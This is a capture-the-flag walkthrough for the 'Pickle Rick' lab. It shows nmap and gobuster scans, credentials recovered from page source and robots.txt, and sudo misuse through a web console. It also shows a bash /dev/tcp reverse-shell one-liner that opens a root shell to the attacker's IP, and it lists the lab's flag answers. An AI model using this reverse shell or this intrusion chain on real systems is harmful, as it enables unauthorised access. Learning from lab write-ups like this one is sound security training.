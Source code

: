 # Pickle Rick

![main-page.png](images/main-page.png)

<details>
    <summary>Clue in source code:</summary>

    ```html
    <!--
        Note to self, remember username!

        Username: R1ckRul3s
    -->
    ```

</details>

<details>
    <summary>Clue in robots.txt:</summary>

    ```
    Wubbalubbadubdub
    ```

</details>

## Nmap

```bash
nmap -A -sC -T5 10.10.20.211
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-17 22:59 WEST
Stats: 0:00:00 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Nmap scan report for 10.10.20.211
Host is up (0.056s latency).

PORT     STATE    SERVICE   VERSION
22/tcp   open     ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 82c17a3ef1a9c48837803bb3aacc83b0 (RSA)
|   256 958b0f4d98dfe1221294014fb515947d (ECDSA)
|_  256 a0b4f06c0946f55a2fbd3f4441f386d6 (ED25519)

80/tcp   open     http      Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool

254/tcp  filtered unknown

3007/tcp filtered lotusmtap
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 14.21 seconds
```

## Gobuster

```bash
gobuster dir -u http://10.10.20.211 -w wordlists/dirb/big.txt
```

```
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.20.211
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/18 00:17:14 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403)
/.htaccess            (Status: 403)
/assets               (Status: 301)
/robots.txt           (Status: 200)
/server-status        (Status: 403)
/index.html           (Status: 200)
/login.php            (Status: 200)
```

Success login, redirected to /portal.php wich contains a terminal window.

## Webpage console

```
$ whoami
www-data
$ sudo -l
Matching Defaults entries for www-data on ip-10-10-20-211.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-20-211.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```

We can run any command as www-data without a password.

## Exploit

Reference: [https://gtfobins.github.io/gtfobins/bash/](https://gtfobins.github.io/gtfobins/bash/)

Locally:

```bash
nc -l -p 12345
```

Webpage:

```bash
sudo bash -c 'exec bash -i &>/dev/tcp/10.8.105.196/12345 <&1'
```

![root.png](images/root.png)

Success!

```
root@ip-10-10-20-211:/var/www/html# cd /root
cd /root
root@ip-10-10-20-211:~# ls -la 
ls -la
total 32
drwx------  4 root root 4096 Apr 17 23:07 .
drwxr-xr-x 23 root root 4096 Apr 17 22:53 ..
-rw-------  1 root root   11 Apr 17 23:07 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
```

## Spoiler alert

<details>
    <summary>What is the first ingredient Rick needs?</summary>

    ```
    /var/www/html/
    mr. meeseek hair
    ```

</details>

<details>
    <summary>Whats the second ingredient Rick needs?</summary>

    ```
    /home/rick/
    1 jerry tear
    ```

</details>

<details>
    <summary>Whats the final ingredient Rick needs?</summary>

    ```
    /root/
    3rd ingredients: fleeb juice
    ```

</details>
